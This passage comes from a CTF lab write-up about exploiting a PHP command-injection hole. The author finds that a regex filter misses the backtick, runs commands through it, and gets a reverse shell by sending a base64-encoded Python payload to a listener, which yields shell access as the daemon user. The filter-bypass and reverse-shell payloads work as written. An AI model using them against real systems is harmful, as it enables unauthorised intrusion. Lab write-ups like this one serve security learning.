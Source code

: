 ```php
                system($command);
             }
             
            }
?>
```

Hmm... Let's take a look at the **regular expression** part:

**Filter:**
```
/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/
```

Looks like some special characters are missing!

**Missing special characters:**
```
"./<+-`
```

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection) talking about command injection, **if "\`" is allowed, we can execute arbitrary command with it!**

**Input:**
```
`ls`
```

**Output:**
```
api css dbConnect.php echo.php favicon.png imgs index.php jebait.html js login.html login.php logout.php logs README.md session2.php session.php 
```

We have **command injection**!! Let's get a reverse shell!

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nc -lnvp 13337
listening on [any] 13337 ...
```

- Next, we can use the **`base64` decode trick**: 

> Note: We `base64` the payload is because the filter. Please also note that the `base64` payload shouldn't contain the padding (`=`), as it's the part of the filter.

**Input:**
```
`echo "cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTguNjEuMTM0IiwxMzMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn" | base64 -d | bash`
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# nc -lnvp 13337
[...]
daemon@labyrinth:/opt/lampp/htdocs$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
daemon
labyrinth
uid=1(daemon) gid=1(daemon) groups=1(daemon)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9d:55:2f:26:31 brd ff:ff:ff:ff:ff:ff
    inet 10.10.92.1/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:55ff:fe2f:2631/64 scope link 
```